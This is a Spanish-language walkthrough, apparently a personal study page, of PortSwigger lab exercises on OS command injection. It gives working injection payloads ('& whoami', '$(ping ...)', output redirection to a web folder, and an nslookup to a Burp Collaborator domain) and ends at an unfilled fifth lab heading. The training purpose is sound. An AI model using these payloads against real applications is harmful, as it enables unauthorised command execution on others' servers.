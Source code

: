 ```yaml
---
layout: default
title: "OS command injection - PortSwigger"
permalink: /command-injection-ps/
---
```


# OS command injection

Todos los laboratorios posteriormente expuestos los puedes encontrar para resolverlos en la academia de PortSwigger.

[https://portswigger.net/web-security/os-command-injection](https://portswigger.net/web-security/os-command-injection)

## Indice



## 1. Lab: OS command injection, simple case

```text
Esta práctica de laboratorio contiene una vulnerabilidad de inyección de comandos del sistema operativo en el verificador de stock de productos.

La aplicación ejecuta un comando de shell que contiene los ID de tienda y producto proporcionados por el usuario, y devuelve la salida sin procesar del comando en su respuesta.

Para resolver la práctica de laboratorio, ejecute el whoamicomando para determinar el nombre del usuario actual.
```

Como nos dice la informacion, buscaremos un articulo cualquiera, y le damos clic en el boton **Check stock** y lo interceptamos con el burpsuite y lo enviamos al **Repeater**.

![](img1.png)

Como podemos ver, todo ocurre de manera normal, ahora intentaremos ejecutar comandos agregandole **& whoami**.

![U](img2.png)

Si lo enviamos así no va a obtener nada, ya que el **&** lo esta considerando como el cierre del parametro y el inicio de otro asi que lo que haremos será seleccion todo el parametro **1&whoami** y encodearlo con las teclas **Ctrl + U**.

![](img3.png)

Como podemos ver, si ejecutó el comando **whoami**, y si vamos a el sitio web, nos damos cuenta que si figura como resuelto.

![](img4.png)

## 2. Lab: Blind OS command injection with time delays

```bash
Esta práctica de laboratorio contiene una vulnerabilidad de inyección ciega de comandos del SO en la función de retroalimentación.

La aplicación ejecuta un comando de shell que contiene los detalles proporcionados por el usuario. La salida del comando no se devuelve en la respuesta.

Para resolver el laboratorio, aproveche la vulnerabilidad de inyección ciega de comandos del sistema operativo para provocar un retraso de 10 segundos.
```

Lo que haremos será enviar un feedback al webmaster mediante la opcion que aparece en el sitio web.

![](img5.png)

E interceptamos el paquete con burpsuite y lo enviamos al reapiter.

![](img6.png)

Como podemos ver, no obtener ninguna respuesta al realizar el comando, ahora intentaremos generar un retardo en la solicitud agregandole un **ping -c 10 127.0.0.1**.

![](img7.png)

Lo cual logró generar el retrazo, ya que generamos el comando ping dentro de los caracteres **''$(''** y **'')'** que sirven para ejecutar strings dentro de strings.

![](img8.png)

## 3. Lab: Blind OS command injection with output redirection  

```bash
Esta práctica de laboratorio contiene una vulnerabilidad de inyección ciega de comandos del SO en la función de retroalimentación.

La aplicación ejecuta un comando de shell que contiene los detalles proporcionados por el usuario. La salida del comando no se devuelve en la respuesta. Sin embargo, puede utilizar la redirección de salida para capturar la salida del comando. Hay una carpeta en la que se puede escribir en:

/var/www/images/

La aplicación sirve las imágenes para el catálogo de productos desde esta ubicación. Puede redirigir la salida del comando inyectado a un archivo en esta carpeta y luego usar la URL de carga de la imagen para recuperar el contenido del archivo.

Para resolver el laboratorio, ejecute el whoamicomando y recupere el resultado.
```

Lo que haremos será enviar un feedback al webmaster mediante la opcion que aparece en el sitio web.

![](img9.png)

E interceptamos el paquete con burpsuite y lo enviamos al reapiter.

![](img10.png)

Como en el ejemplo anterior, no devuelve ningun resultado lo que haremos será ejecutar el comando **whoami** y lo enviaremos a la ruta **/var/www/images/**.

```bash
$(whoami > /var/www/images/whoami.txt) #Con url encode (seleccionar texto y Ctrl + u)
```

Lo cual de deberia mostrar en la url:

```bash
https://acfb1fb31f59b03d80493c9e006000ac.web-security-academy.net/images/whoami.txt
```

Ahora realizaremos esto en el repeater en el parametro **message** y lo enviamos.

![](img11.png)

Y ahora accedemos por navegador a la url para revisar que el comando de ejecutó correctamente:

![](img12.png)

Ahora si vamos a la pagina principal del laboratorio vemos que se realizó correctamente.

![](img13.png)

## 4. Lab: Blind OS command injection with out-of-band interaction

```bash
Esta práctica de laboratorio contiene una vulnerabilidad de inyección ciega de comandos del sistema operativo en la función de retroalimentación.

La aplicación ejecuta un comando de shell que contiene los detalles proporcionados por el usuario. El comando se ejecuta de forma asincrónica y no tiene ningún efecto en la respuesta de la aplicación. No es posible redirigir la salida a una ubicación a la que pueda acceder. Sin embargo, puede desencadenar interacciones fuera de banda con un dominio externo.

Para resolver el laboratorio, aproveche la vulnerabilidad de inyección ciega de comandos del sistema operativo para emitir una búsqueda de DNS en Burp Collaborator.
```

Entonces, necesitamo buscar la seccion de **Burp Collaborator**, para ello nos ubicamos en la pestaña **Burp** y en la opcion **Burp Collaborator Client**.  y le damos clic en **Copy to clipboard**, con lo cual obtenemos el siguiente:

```bash
z66dbyatv2hji73k2colx34jua00op.burpcollaborator.net
```

Ahora, vamos a interceptar el paquete del feedback y lo enviamos al repeater editando el parametro **message** por lo siguiente.

```bash
$(nslookup z66dbyatv2hji73k2colx34jua00op.burpcollaborator.net)
```

Como se ve en la siguiente imagen:

![](img14.png)

Podemos ver en nuestra ventana de **Burp Collaborator Client**, podemos ver que si se realizaron las consultas dns.

![](img15.png)

Ahora verificamos en el home del laboratorio si lo completamos.

![](img16.png)

## 5. Lab: Blind OS command injection with out-of-band data exfiltration



